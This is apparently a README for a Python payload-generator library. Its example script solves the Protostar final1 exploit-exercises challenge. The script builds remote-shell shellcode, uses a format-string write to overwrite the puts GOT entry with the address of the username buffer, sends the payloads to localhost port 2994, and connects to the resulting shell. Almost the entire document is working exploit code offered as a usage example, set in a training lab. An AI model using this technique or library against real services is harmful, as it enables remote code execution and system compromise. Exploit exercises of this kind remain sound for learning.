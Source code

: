 Payload Generator
================

## Example

This script resolves the challenge : https://exploit-exercises.com/protostar/final1/

    import time
    import sys

    from payload import *
    import shellcode
    import formatstr
    import heap
    import polymorphic

    puts_got = 0x804a194
    data_username = 0x804a220
    port = 11111

    sc = shellcode.remote_shell(port)
    payload1 = b"username " + sc + b"\n"

    # assume that we are connected with a port with 5 numbers and in localhost
    before = len("Login from 127.0.0.1:00000 as [] with password [AAA") + len(sc)

    # payload2 = b"login AAACCCC" + formatstr.hexdump(12, 38, sep="-") + b"\n"
    payload2 = b"login AAA"
    payload2 += formatstr.write(puts_got, data_username, before, 38)
    payload2 += b"\n"

    send("127.0.0.1", 2994, payload1 + payload2)

    time.sleep(1)
    interact("127.0.0.1", port)

